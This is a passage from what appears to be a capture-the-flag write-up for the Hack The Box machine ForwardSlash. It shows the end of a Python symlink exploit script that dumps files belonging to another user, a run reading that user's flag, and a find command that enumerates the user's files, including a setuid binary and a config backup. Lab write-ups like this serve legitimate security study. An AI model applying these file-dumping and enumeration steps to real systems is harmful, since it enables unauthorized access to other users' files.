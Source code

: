 ```python

    if file_dump:
        print(f"\n[+] Dumping {file}...\n\n{file_dump}")

    else:
        raise Exception("\n[!] File dump failed :(")

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB ForwardSlash Symlink Exploit"
    )
    parser.add_argument('-f', '--file', required=True, dest='file')
    
    return parser.parse_args()

def main():
    try:
        args = set_arguments()
        exploit(args.file)
        print("\n[+] Script finished successfully")
        sys.exit(0)
    
    except KeyboardInterrupt:
        print("\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)

    except Exception as e:
        print(e)
        sys.exit(1)

main()
```

Yessir! We could read the user’s flag.

```
chiv@forwardslash:~$ python3 forwardslash2.py -f /home/pain/user.txt

[+] Script's time: 11:46:16

[+] Generated hash: 8a96830c2ae7e5ac502ab902cb3e8b72

[+] Dumping /home/pain/user.txt...

0bd0274f68621aad****************

[+] Script finished successfully
```

Discovered a *config.php.bak* file that is only readable by the *Pain* user.

```
chiv@forwardslash:~$ find / -user pain -type f -exec ls -lah {} \; 2>/dev/null

-rw------- 1 pain pain 526 Jun 21  2019 /var/backups/config.php.bak
-r-sr-xr-x 1 pain pain 14K Mar  6  2020 /usr/bin/backup
-rw-r--r-- 1 pain pain 807 Apr  4  2018 /home/pain/.profile
-rw------- 1 pain pain 33 Jul 13 10:14 /home/pain/user.txt
-rw-r--r-- 1 pain pain 3.7K Apr  4  2018 /home/pain/.bashrc
-rw-r--r-- 1 pain pain 220 Apr  4  2018 /home/pain/.bash_logout
-rw-r--r-- 1 pain root 931 Jun  3  2019 /home/pain/encryptorinator/encrypter.py
-rw-r--r-- 1 pain root 165 Jun  3  2019 /home/pain/encryptorinator/ciphertext
-rw-r--r-- 1 pain root 256 Jun  3  2019 /home/pain/note.txt
```
